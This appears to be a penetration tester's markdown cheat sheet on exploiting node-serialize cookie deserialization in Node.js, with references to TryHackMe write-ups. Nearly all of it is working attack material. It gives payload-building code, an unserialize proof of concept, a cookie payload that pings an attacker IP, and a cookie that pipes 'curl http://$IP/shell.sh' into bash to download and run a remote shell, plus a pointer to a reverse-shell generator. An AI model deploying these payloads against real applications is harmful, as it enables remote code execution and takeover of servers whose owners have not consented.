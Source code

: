 # JavaScript Cookie Abuse


[[NodeJS]]

## Deserialization of Node JS Cookies 

[opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) - Payload building
```js
var y = {
    rce: function() {
        require('child_process').exec('ls /', function(error, stdout, stderr) {
            console.log(stdout)
        });
    }(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

```js
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ping -c 3 /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```


Ping to test 
```json
{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 3 $IP', function(error, stdout, stderr) { console.log(stdout) });}()","isGuest":true,"encoding": "utf-8"}`
```

Host shell.sh; encode base64 this cookie:
```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl http://$IP/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```
Consideration on using `.exec` to directly get a reverse shell like - [nodejsshell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)


## References

[falseintel](https://falseintel.github.io/thm-vulnnet-node-writeup.html)
[kartikeyj96](https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/VulnNet-Node%20Writeup)
[Node.Js-Security-Course](https://github.com/ajinabraham/Node.Js-Security-Course)
[opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)